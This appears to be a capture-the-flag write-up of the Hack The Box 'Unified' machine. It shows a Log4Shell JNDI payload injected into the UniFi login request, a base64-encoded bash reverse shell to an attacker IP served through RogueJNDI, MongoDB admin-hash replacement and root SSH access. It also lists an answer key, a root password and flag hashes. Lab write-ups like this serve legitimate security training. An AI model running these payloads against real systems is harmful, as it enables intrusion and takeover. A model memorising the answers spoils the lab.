





# Unified

This write-up is provided strictly for educational purposes, demonstrating how the Log4Shell vulnerability (CVE-2021-44228), insecure local MongoDB exposure, and credential reuse can lead to full system compromise in a controlled lab environment.

## Overview

This write-up documents the compromise of the _Unified_ machine from Hack The Box Starting Point (VIP).

The attack path was fully evidence-based and reproducible. No brute force or password guessing was required.

The compromise involved:

- Full TCP port scanning
- Service and version enumeration
- Identification of UniFi Network Application 6.4.54
- Exploitation of Log4Shell (CVE-2021-44228)
- Reverse shell via JNDI injection
- MongoDB local database enumeration
- Administrator password reset via database manipulation
- Web login as administrator
- SSH credential extraction from UniFi settings
- Root SSH access
- User and root flag extraction

---

## Answers Summary

- **First four open ports** → `22, 6789, 8080, 8443`
- **Software running on 8443** → `UniFi Network`
- **Software version** → `6.4.54`
- **Identified vulnerability (CVE)** → `CVE-2021-44228`
- **Protocol leveraged by JNDI** → `LDAP`
- **Tool used to intercept traffic** → `tcpdump`
- **Port inspected for JNDI traffic** → `389`
- **MongoDB port** → `27117`
- **Default UniFi database name** → `ace`
- **MongoDB function to enumerate users** → `db.admin.find()`
- **MongoDB function to update users** → `db.admin.update()`
- **Root SSH password** → `NotACrackablePassword4U2022`

---

## 1. Initial Reconnaissance

A full TCP scan was performed to identify exposed services.

```bash
sudo nmap -sCV <target-ip> -p- --min-rate 1000
```

### Results

Open ports identified:

```
22/tcp   open  ssh
6789/tcp open
8080/tcp open  http
8443/tcp open  https
```

Port **8443** hosted a web interface.

---

## 2. Service Enumeration

Browsing to:

```
https://<target-ip>:8443
```

Revealed:

- Application: **UniFi Network**
- Version: **6.4.54**

This version is vulnerable to **Log4Shell (CVE-2021-44228)**.

---

## 3. Confirming Log4Shell Vulnerability

Log4Shell exploits JNDI lookups such as:

```
${jndi:ldap://attacker-ip:1389/a}
```

To properly test the vulnerability, the login request was first captured using **Burp Suite**.

The POST request to `/api/login` was intercepted and sent to Repeater.

The original JSON body was modified by injecting the JNDI payload inside the `remember` parameter:

```json
{
  "username": "test",
  "password": "password",
  "remember": "${jndi:ldap://10.10.14.58:1389/o=tomcat}",
  "strict": true
}
```

The modified request was then sent from Burp Repeater.

To confirm whether the injection was processed by the vulnerable Log4j instance, LDAP traffic was monitored on the attacker machine:

```bash
sudo tcpdump -i tun0 port 389
```



The protocol leveraged by JNDI in this exploitation chain is **LDAP**, which uses port **389**.

Upon sending the modified login request, an inbound LDAP connection from the target machine was observed in tcpdump.

This confirmed that:

1. The Log4j lookup was executed.
2. The application was vulnerable to CVE-2021-44228.
3. Remote code execution was achievable via a malicious LDAP server.

This validated the presence of the Log4Shell vulnerability before proceeding to full exploitation.

---

## 4. Exploitation – Reverse Shell via RogueJNDI

After confirming the Log4Shell vulnerability, remote code execution was achieved using **RogueJNDI**.

### 4.1 Compile RogueJNDI

```bash
git clone https://github.com/veracode-research/rogue-jndi
cd rogue-jndi
mvn package
```

---

### 4.2 Generate Reverse Shell Payload

A Bash reverse shell was generated and base64 encoded:

```bash
echo 'bash -c bash -i >&/dev/tcp/<attacker-ip>/4444 0>&1' | base64
```

⚠️ Replace `<attacker-ip>` with your VPN IP address.

The command outputs a base64 string similar to:

```
YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuNTgvNDQ0NCAwPiYxCg==
```

This output must be used in the next step.

---

### 4.3 Start RogueJNDI Server

Start the malicious LDAP server using the previously generated base64 output:

```bash
java -jar target/RogueJndi-1.1.jar \
--command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuNTgvNDQ0NCAwPiYxCg==}|{base64,-d}|{bash,-i}" \
--hostname "<attacker-ip>"
```

⚠️ Replace:

- The base64 string with the output from the previous step
- `<attacker-ip>` with your VPN IP

The server should start and listen on:

- LDAP → port 1389
- HTTP → port 8000

---

### 4.4 Start Listener

On a separate terminal:

```bash
nc -lvnp 4444
```

---

### 4.5 Trigger the Payload

Using Burp Repeater, resend the login request containing the JNDI payload in the `remember` parameter.

Once the request is processed, the target connects back to the attacker machine.

Successful callback:

```
connect to [10.10.14.58] from (UNKNOWN) [target-ip]
whoami
unifi
```

This confirms remote code execution as the `unifi` user.

---

## 5. MongoDB Enumeration

UniFi runs MongoDB locally without authentication.

Configuration file confirmed database port:

```
/usr/lib/unifi/data/system.properties
```

MongoDB port:

```
unifi.db.port=27117
```

Database enumeration:

```bash
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
```

Discovered administrator account and `x_shadow` SHA-512 password hash.



---

## 6. Resetting Administrator Password

A new SHA-512 password hash was generated:

```bash
mkpasswd -m sha-512 Password1234
```

Password updated in MongoDB:

```bash
mongo --port 27117 ace --eval 'db.admin.update({"_id":ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"<generated-hash>"}})'
```



Login successful using:

```
administrator : Password1234
```

---

## 7. SSH Credential Disclosure

Inside UniFi web interface:

```
Settings → Site → Device Authentication
```

Root SSH credentials were visible:

```
Username: root
Password: NotACrackablePassword4U2022
```



---

## 8. Root Access via SSH

```bash
ssh root@<target-ip>
```

Successful login:

```
whoami
root
```

---

## 9. Flag Extraction

### User Flag

```bash
cat /home/michael/user.txt
```

```
6ced1a6a89e666c0620cdb10262ba127
```

### Root Flag

```bash
cat /root/root.txt
```

```
e50bc93c75b634e4b272d2f771c33681
```



---

## Conclusion

The compromise of Unified followed a clear and structured attack chain:

1. Service enumeration identified vulnerable UniFi version
2. Log4Shell exploited via JNDI LDAP injection
3. Reverse shell obtained as unifi user
4. Local MongoDB accessed without authentication
5. Administrator password reset via database manipulation
6. Web login as administrator
7. SSH credentials extracted from configuration
8. Root access achieved via SSH
9. User and root flags retrieved

This lab demonstrates how a single remote code execution vulnerability, combined with insecure internal service exposure and credential storage, can result in full system compromise.
